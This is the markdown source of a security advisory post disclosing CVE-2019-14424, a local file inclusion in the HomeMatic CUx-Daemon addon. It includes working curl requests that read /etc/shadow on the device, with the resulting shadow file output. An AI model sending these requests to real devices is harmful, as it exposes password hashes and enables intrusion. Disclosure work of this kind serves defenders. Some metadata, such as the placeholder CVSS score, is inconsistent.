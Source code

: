 ```yaml
---
layout: post
title: "Local File Inclusion in HomeMatic CUx-Daemon"
date: 2019-07-15 09:00:00
image:
      url: /assets/pixabay/matrix-1799659_1920.jpg
author: 'Joshua Lehr'
author_image: "https://avatars1.githubusercontent.com/u/22133182?s=400&u=9c37c0c25738af0b47f4b2ab1c3adb0b26f80abf&v=4"
author_link: "https://github.com/noskill1337"
cve: "CVE-2019-14424"
cve_description: "A Local File Inclusion (LFI) issue in the addon CUx-Daemon Version 1.11a of the HomeMatic CCU-Firmware 2.35.16 until 2.45.6 allows remote authenticated attackers to read sensitive files via a simple HTTP Request."
cve_affectedVersion: "CUx-Daemon Version 1.11a until 2.2.0"
cvss: "XX.XX"
softwarePatchLink: "[https://www.homematic-inside.de/blog/cuxd-in-der-version-2-3-0-erschienen?highlight=cuxd](https://www.homematic-inside.de/blog/cuxd-in-der-version-2-3-0-erschienen?highlight=cuxd)"
---
```


## Overview

- Vulnerability: Local File Inclusion (LFI)
- Vendor: Uwe Langhammer (Alex Krypthul)
- Vendor Homepage: [https://www.homematic-inside.de/software/cuxd](https://www.homematic-inside.de/software/cuxd)
- Product: HomeMatic Addon CUx-Daemon
- Testet on: CCU-Firmware 2.35.16 until 2.45.6 CUx-Daemon Version 1.5a
- Version: {{ page.cve_affectedVersion }}

## Background

HomeMatic is a home automation system consisting of various components for automating several parts of a building, including different sensors and actuators. The HomeMatic CCU2 is a central control unit, which is responsible for integrating these components with each other.

From the HomeMatic's [website](https://www.eq-3.com/products/homematic/control-units-and-gateways.html):
"Homematic devices can be connected to one another and programmed via the control units and gateways. The Homematic Central Control Unit CCU2 is responsible for numerous control, signalling and supervision functions across all areas of the Homematic system. The device includes a browser based user interface to the up the system. It can be controlled in the local network as well as via Internet. The Homematic software offers various configuration and application possibilities, so that there are no limits to creativity for installing your individual smart home..."

Link to the vulnerable [addon](https://www.homematic-inside.de/software/cuxd): This addon is compartible with CCU1, CCU2, CCU3 and RaspberryMatic. The issue can found on this systems as well.

## Issue Description

While analyzing the implementation of the home automation system HomeMatic, one Local File Inclusion (LFI) vulnerability has been identified, which can be exploited in order to display sensitive information. The vulnerability is in the default CUx daemon addon of CCU firmware 2.35.16 to 2.45.6.

![Affected Version](/assets/CVE-2019-14424/CVE-2019-14424.HomeMatic.Version.JPG)

This vulnerability can be exploited by authenticated attackers with access to the web interface to display secret files for future attacks against this system.

The following **bash commands** illustrates this approach:

~~~ bash
curl -k http://192.168.0.125/addons/cuxd/index.ccc\?file\=/etc/shadow
curl -i -s -k  -X $'GET' \
    -H $'Host: 192.168.0.125' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:64.0) Gecko/20100101 Firefox/64.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: http://192.168.0.125/addons/cuxd/index.ccc/?m=24' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
    $'http://192.168.0.125/addons/cuxd/index.ccc/?filter=&m=24&lines=25&logfile=/etc/shadow'
~~~

Output of the first **bash command** command:

~~~ bash
root:zCQOnlsoVSv5.:19087:0:99999:7:::
bin:*:10933:0:99999:7:::
daemon:*:10933:0:99999:7:::
adm:*:10933:0:99999:7:::
lp:*:10933:0:99999:7:::
sync:*:10933:0:99999:7:::
shutdown:*:10933:0:99999:7:::
halt:*:10933:0:99999:7:::
uucp:*:10933:0:99999:7:::
operator:*:10933:0:99999:7:::
ftp:*:10933:0:99999:7:::
nobody:*:10933:0:99999:7:::
default:*:10933:0:99999:7:::
~~~

Website call in brwoser with **Local File Inclusion command**:
![POC execute systemcall and read /etc/shadow file](/assets/CVE-2019-14424/CVE-2019-14424.HomeMatic.POC.JPG)

## Impact

This vulnerability affects the confidentiality of secret system files. This allows an attacker to read any system data. If an attacker is aware of the security issue, he or she may steal important data to compromise the system in the next step.

## Remediation

In order to avoid this vulnerability, it's suggested to disable the addon:
**{{ page.cve_affectedVersion }}**

{%if page.softwarePatchLink %}{{ site.softwarePatchText }}{{ page.softwarePatchLink }}{% else %}{{ "" }}{% endif %}

## CVE

- CVE: [{{ page.cve }}](https://cve.mitre.org/cgi-bin/cvename.cgi?name={{ page.cve }})
- CVSS Base Score: **{{ page.cvss }}**
- CVSS: 3.0/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H

## Credit

- {{ site.owner }}

## Disclosure Timeline

- 2019-June-15: Discovered vulnerability
- 2019-June-16: Vendor Notification
- 2019-June-21: Vendor Fix/Patch
- 2019-Juli-15: Public Disclosure

## Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information. In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

System administrators need tools like this to discover vulnerable hosts. This tool is offered for legal purposes only and to forward the security community's understanding of this vulnerability. As this PoC actively exploits the vulnerability, do not use against targets without prior permission.

The contents of this advisory are copyright (c) 2019 {{ site.owner }} and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.

## License

{{ site.LicenseDisplay }}